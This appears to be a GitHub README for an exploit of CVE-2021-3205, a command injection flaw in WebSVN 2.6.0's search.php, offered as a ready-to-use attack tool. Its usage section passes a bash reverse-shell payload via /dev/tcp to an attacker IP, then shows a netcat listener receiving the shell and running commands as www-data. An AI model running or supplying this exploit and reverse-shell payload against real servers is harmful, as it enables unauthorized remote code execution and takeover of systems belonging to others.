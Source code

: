 # CVE-2021-3205-websvn-2.6.0
This is a exploit of CVE-2021-3205 a web vulnerability to command injection on search.php path, this exploit allows execute commands.
# Requirements
optparse, signal, requests
# Usage
```bash
❯ python3 CVE-2021-3205.py --url http://10.0.2.168/websvn/ --payload "bash -c 'bash -i >& /dev/tcp/10.0.2.133/443 0>&1'"

...

❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.0.2.133] from (UNKNOWN) [10.0.2.168] 34174
bash: cannot set terminal process group (357): Inappropriate ioctl for device
bash: no job control in this shell
www-data@agent:~/html/websvn$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@agent:~/html/websvn$ 


```

